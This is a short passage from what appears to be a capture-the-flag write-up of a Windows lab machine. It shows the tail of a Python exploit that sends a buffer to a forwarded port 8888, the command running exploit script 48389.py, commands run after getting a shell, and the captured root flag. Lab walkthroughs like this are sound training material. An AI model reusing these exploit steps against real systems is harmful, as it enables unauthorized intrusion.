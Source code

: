 ```python
try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888)) # since after port forward it will connect vulnerabitable service
	s.send(buf)
except Exception as e:
	print(sys.exc_value)

```

```bash
python3 48389.py
```

Excellent! we got the shell. Let's check our privilege and capture the root flag:

```cmd
whoami
ipconfig
type C:\Users\Administrator\Desktop\root.txt
```

```
type C:\Users\Administrator\Desktop\root.txt
224340e5c9a3576e91d5ffb0c9e6a285

```

![[Buff-15.png]]
